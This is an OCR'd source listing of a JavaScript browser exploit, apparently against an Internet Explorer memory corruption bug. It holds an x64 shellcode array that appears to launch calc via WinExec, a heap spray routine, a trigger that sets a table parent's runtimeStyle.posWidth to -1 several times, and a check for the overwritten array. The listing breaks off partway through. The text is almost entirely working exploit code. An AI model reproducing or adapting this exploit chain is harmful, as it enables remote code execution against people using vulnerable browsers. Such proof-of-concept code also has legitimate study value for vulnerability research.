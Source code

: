 ```
 var shellcode = [0x40, 0x80, 0xe4, 0xf8, 0x6a, 0x60, 0x59, 0x65, 0x48, 0x8b, 0x31, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x03, 0x4f, 0x3c, 0x8b, 0x5c, 0x0f, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x01, 0xfe, 0x8b, 0x4c, 0x1f, 0x24, 0x48, 0x01, 0xf9, 0x31, 0xd2, 0x0f, 0xb7, 0x2c, 0x51, 0xff, 0xc2, 0xad, 0x81, 0x3c, 0x07, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xf0, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x01, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x01, 0xf7, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x31, 0xd2, 0x48, 0x83, 0xec, 0x28, 0xff, 0xd7, 0xcc, 0, 0, 0, 0];
//triggers the bug
function crash(i) `{`
 numsploits = numsploits + 1;
 t = document.getElementsByTagName("table")[i];
 t.parentNode.runtimeStyle.posWidth = -1;
 t.focus();
 setTimeout(cont, 100);  
`}`
//heap spray
function spray() `{`
 var aa = "aa";
 //create a bunch of String and Array objects
 for(var i=0;i&lt;50000;i++) `{`
   strarr[i] = aa.toUpperCase();
   arrarr[i] = new Array(1,2,3,4,5);
 `}`
 //heap-spray with pointers to a String object
 for(var i=0;i&lt;2000;i++) `{`
   var tmparr = new Array(16000);
   for(var j=0;j&lt;16000;j++) `{`
     tmparr[j] = strarr[magic];
   `}`
   sprayarr[i] = tmparr;
 `}`
 crash(0);
`}`
function cont() `{`
 if(numsploits &lt; 5) `{`
   crash(numsploits);
   return;
 `}`
 if(numsploits &lt; 6) `{`
   setTimeout(afterFirstOverwrite, 0);
   return;
 `}`
 //alert("done2");
 afterSecondOverwrite();
`}`
function afterFirstOverwrite() `{`
 //check which array was overwritten
 for(var i=24000;i&lt;25000;i++) `{`
   arrarr[i][18] = 1;
   var a = arrarr[i][4];
   var b = arrarr[i][16];
   var c = arrarr[i][17];
   if(typeof(b)!="undefined") `{`
     arrindex = i;
     addrlo = b;
     addrhi = c;
     break;
   `}`
 `}`
 if(arrindex &lt; 0) `{`
   alert("Exploit failed, error overwriting array");
   return;
 `}`
```